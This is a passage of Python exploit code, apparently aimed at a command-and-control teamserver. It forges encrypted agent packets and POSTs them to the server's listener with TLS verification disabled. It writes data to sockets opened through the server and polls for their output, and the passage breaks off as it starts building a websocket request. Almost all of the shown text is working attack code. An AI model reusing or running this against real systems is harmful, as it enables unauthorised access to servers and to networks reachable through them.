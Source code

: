 ```
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"
 
    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"
 
    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"
 
    data_length = int_to_bytes(len(data))
 
    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)
 
    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)
 
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data
 
    print("[***] Trying to write to the socket")
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")
 
 
def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"
 
    header_data = command + request_id
 
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data
 
 
    print("[***] Trying to poll teamserver for socket output...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""
 
 
    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]
 
    return decrypt(AES_Key, AES_IV, enc_package)[12:]
 
def create_websocket_request(host, port):
    request = (
```